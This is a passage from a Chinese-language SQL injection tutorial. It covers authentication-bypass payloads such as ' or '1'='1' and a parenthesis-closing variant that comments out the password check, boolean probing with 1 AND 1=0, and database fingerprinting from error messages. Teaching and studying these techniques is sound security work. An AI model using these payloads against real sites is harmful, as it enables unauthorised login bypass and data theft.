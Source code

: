 代入参数后，SQL查询语句变成：

```sql
SELECT * FROM users WHERE username='1' or '1' = '1' AND password='1' or '1' = '1';
```

可以发现，在上述SQL语句中，不管`or`和`AND`操作符谁的优先级高，`WHERE`语句的条件都是永远为真的，因此我们可以通过这个操作，实现认证过程的绕过。

接下来，我们对原始SQL语句进行一次升级，这种升级后的语句也是非常常见的：

```sql
SELECT count(*) FROM users WHERE ((username='$username') AND (password=MD5('$password')));
```

可以看到，这次升级一方面在username部分新增了括号，另一方面在处理password时，选择了MD5散列结果进行比较，最后又统计了查询结果的数量，经过升级之后，上一次的构造就无法生效了。

这时，如果我们想要构造新的参数完成SQL注入，就要解决三个问题，**第一是括号的闭合，第二是password部分的比对，第三是要确保查询数量为1。**于是我们构造如下输入：

```plain
$username = 1' or '1' = '1')) LIMIT 1 --
$password = test
```

将参数代入后查询语句变成：

```sql
SELECT count(*) FROM users WHERE ((username='1' or '1' = '1')) LIMIT 1 --') AND (password=MD5('$password')));
```

可以发现上述SQL语句实现了括号的闭合、忽略了password判断部分，并且限制结果数量为1，这段语句同时满足了3个限制条件，成功实现了SQL注入攻击。

在基本起手式阶段，除了这种使用`'`来进行注入探测的方式以外，我们还可以使用`AND`符号来判断参数是否可以被当做运算符参与代码执行。以常见的CMS类型系统为例，常见的帖子链接如下：

```plain
https://example.com/article.php?id=1
```

在已知【id=1帖子】存在的情况下，我们可以将id参数设置为`1 AND 1=0`，并且和SQL语句完成拼接：

```sql
SELECT * from articles WHERE article_id = 1 AND 1=0;
```

如果该页面无法显示内容，就说明`1 AND 1=0`中后半部分的False结果参与了运算，依此可以判断SQL注入漏洞的存在。

#### 数据库信息

通过起手式阶段的基本动作，我们可以发现SQL注入漏洞是否存在。

在成功发现SQL注入漏洞之后，为了给后续更高级的注入动作做好铺垫，我们需要进入一个新的阶段–获取数据库信息。而之所以展开讲述这部分的主要原因是，虽然SQL语句是相对标准化的，但是每种DBMS在特殊指令、获取数据操作等方面都会有一些差异，因此在实际SQL注入过程中我们需要考虑到数据库差异使用不同的语法。

如果我们想要判断一个后端数据库的类型，让这个数据库报错是一个快速的方法。这里我们列举几种常见的错误信息，可以发现MySQL、MS SQL Server、PostgreSQL的报错信息都有比较明显的特征：

```sql
You have an error in your SQL syntax; check the manual
that corresponds to your MySQL server version ...
Microsoft SQL Native Client error ...
Query failed: ERROR: syntax error at or near ...
```
